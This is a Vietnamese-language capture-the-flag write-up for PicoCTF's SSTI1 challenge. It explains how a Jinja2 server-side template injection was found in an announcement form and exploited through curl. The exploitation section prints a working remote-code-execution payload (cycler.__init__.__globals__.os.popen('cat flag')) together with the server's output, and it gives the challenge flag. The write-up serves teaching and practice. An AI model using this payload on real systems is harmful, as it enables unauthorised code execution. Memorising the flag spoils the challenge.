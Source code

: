 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
### Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

```bash
#curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
```

Kết quả trả về từ server như sau:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

Flag thu được là: ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}``

